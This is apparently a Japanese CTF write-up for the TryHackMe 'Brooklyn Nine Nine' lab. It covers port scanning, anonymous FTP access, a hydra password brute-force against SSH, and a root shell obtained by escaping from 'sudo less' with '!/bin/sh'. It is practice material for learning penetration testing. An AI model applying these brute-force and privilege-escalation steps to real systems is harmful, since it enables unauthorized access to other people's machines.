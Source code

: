 # Target [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

## ポートスキャン
nmapでポートスキャンを行う(以下は出力したファイルを表示している)
```
┌─[penguin@parrot]─[~/TryHackMe/BrooklynNineNine]
└──╼ $cat nmapscan 
# Nmap 7.94SVN scan initiated Tue Mar 25 12:58:42 2025 as: nmap -Pn -sV -oN nmapscan 10.10.150.169
Nmap scan report for 10.10.150.169
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 25 12:59:20 2025 -- 1 IP address (1 host up) scanned in 37.92 seconds
```

## ftpが空いているので、ログインしてみる
```
┌─[penguin@parrot]─[~/TryHackMe/BrooklynNineNine]
└──╼ $ftp 10.10.150.169
Connected to 10.10.150.169.
220 (vsFTPd 3.0.3)
Name (10.10.150.169:penguin): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||27838|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
```
ログイン成功してディレクトリを確認すると、怪しげなファイルがあるので、ダウンロードして中身を確認してみる。

```
┌─[penguin@parrot]─[~/TryHackMe/BrooklynNineNine]
└──╼ $cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```
内容として、amyからjakeへパスワードが弱いので、変更しろよという旨のテキストメッセージとなっている。  
そのため、jakeでssh接続できるのではないかと考えて、パスワード解析を行う。

## ユーザーパスワード解析
hydraを用いてパスワード解析を行うと、jakeのパスワードが判明した。  
![alt text](picture/Brooklyn1.png)

## ユーザーフラグの調査
jakeでssh接続が成功したためフラグを調査する。  
homeディレクトリを確認すると、jakeの他にamyとholtがいるので、それぞれ確認してみると…  
holtの方にフラグを発見。  
![alt text](picture/Brooklyn2.png)

## 管理者権限への昇格
ユーザーフラグが見つかったため、管理者権限への昇格を試みる。  
とりあえず、sudoで何ができそうか確認する。
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
すると、/usr/bin/lessコマンドがノーパスワードで利用できることが判明。
そのため[GTFOBians](https://gtfobins.github.io/)でlessコマンドを検索。
```
sudo less /etc/profile
!/bin/sh
```
上記コマンドにより、権限昇格できそうなので、試してみる。
```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# whoami
root
```

権限昇格に成功したので、/root配下にあるフラグファイルを確認して、終了。  

## 謎の内容
roomとしては上記でクリアだが、httpの画面に接続して、ソースコードを確認すると以下の文言が記載されていた。
```
Have you ever heard of steganography?
```

![alt text](picture/Brooklyn3.png)

最初はsteghideコマンドなどを利用するのかと思ったが、パスワードが不明だったため、このまま放置。  
もしかするとこの画像を解析することで、何かわかったのかも？


